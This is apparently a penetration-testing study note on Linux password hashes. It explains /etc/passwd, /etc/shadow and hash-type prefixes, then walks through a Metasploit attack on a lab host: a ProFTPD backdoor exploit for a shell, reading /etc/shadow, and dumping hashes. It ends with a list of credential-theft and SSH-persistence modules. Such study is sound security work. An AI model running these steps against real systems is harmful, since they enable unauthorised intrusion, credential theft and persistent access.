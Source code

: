 #### Password hashes
- Linux has multi-user support and as a result ,multiple usrs can access the system simultaneoulsy.This can be seen as both an advantages and disadvantages from a security perspective,in that, mulitple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the sever.

- All the information for all accounts on Linux is stored in the passwd file located in :/etc/passwd
- We cannot view the passwords for the users in the passwd file because they encrypted and the passwd file is readable by any users on the system.

- All the encrypted passwords for the users are stored in the shadow file.It can be found in the following directory /etc/shadow
- The shadow file can only accessed and read by the root account,this is a very important security feature as it prevents other account on the system from accessing the hashed passwords.

#### Linux password Hashes
- The passwd file gives us information in regards to the hashing algorithm that is being used and password hash,this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strenght.We can dtermine this by looking at the number after the username encapsulated by the dollar symbol
- $1 -> MD5
- $2 -> Blowfish
- $5 -> SHA-256
- $6 -> SHA-512


#### Exploit
- nmap -sV 192.168.10.3
- searchsploit ProFTPd [ this will show that this service is vulnerable ]
- msfconsole
- search proftpd
- use exploit/unix/ftp/proftpd_133c_backdoor
-  set everything requires
- this give a shell
- /bin/bash -i [ this give us bash shell ]
- ctrl + z [ to keep the session background ]
- sessions -u 2 [ go to meterpreter sessions ]
- cat /etc/shadow
- ctrl + z [background sessions ]
- search hash_dump
- use post/linux/gather/hashdump
- set SESSION 2 [ set meterpreter sessions ]
- run 
- this will give us passwords hashes
#### Metasploit-Module 
- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump
- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk
- post/linux/gather/enum_xchat
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets
- post/linux/manage/sshkey_persistence
